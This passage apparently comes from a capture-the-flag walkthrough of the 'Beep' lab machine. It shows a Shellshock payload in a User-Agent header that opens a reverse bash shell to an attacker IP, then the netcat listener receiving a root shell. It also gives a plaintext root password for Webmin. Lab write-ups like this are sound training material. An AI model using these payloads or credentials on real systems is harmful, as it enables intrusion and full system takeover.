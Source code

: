 Let's establish a reverse shell:

```shell
User-Agent: () { :; };bash -i >& /dev/tcp/10.10.16.3/443 0>&1
```

We receive a connection as root:

```shell
❯ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.7] 59290
bash: no job control in this shell
[root@beep webmin]# id
uid=0(root) gid=0(root)
[root@beep webmin]# whoami
root
```

## Webmin Command [Path #4]

 I can login to webmin with the credentials root:jEhdIekWmdjE. 
 
![webmin](/images/posts/webmin-admin-page.png)
 
 This interface is designed to administer the system and we have root access because of the credentials that we found earlier so we can create a task as root:
 
